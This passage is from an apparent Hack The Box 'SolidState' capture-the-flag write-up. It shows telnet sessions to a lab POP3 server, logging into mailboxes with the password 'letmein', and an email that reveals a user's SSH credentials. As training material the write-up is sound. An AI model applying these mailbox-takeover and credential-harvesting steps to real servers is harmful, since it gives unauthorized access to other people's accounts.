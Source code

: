 ```sh
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James

.
QUIT
+OK Apache James POP3 Server signing off.
Connection closed by foreign host.
```
{% endraw %}

<br />
Check the other boxes if you feel the need.  None of them have anything interesting.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/solidstate]
└─$ telnet 10.10.10.51 110     
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER james
+OK
PASS letmein
+OK Welcome james
LIST
+OK 0 0
.
QUIT
+OK Apache James POP3 Server signing off.
Connection closed by foreign host.
```
{% endraw %}
{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/solidstate]
└─$ telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER thomas
+OK
PASS letmein
+OK Welcome thomas
LIST
+OK 0 0
.
QUIT
```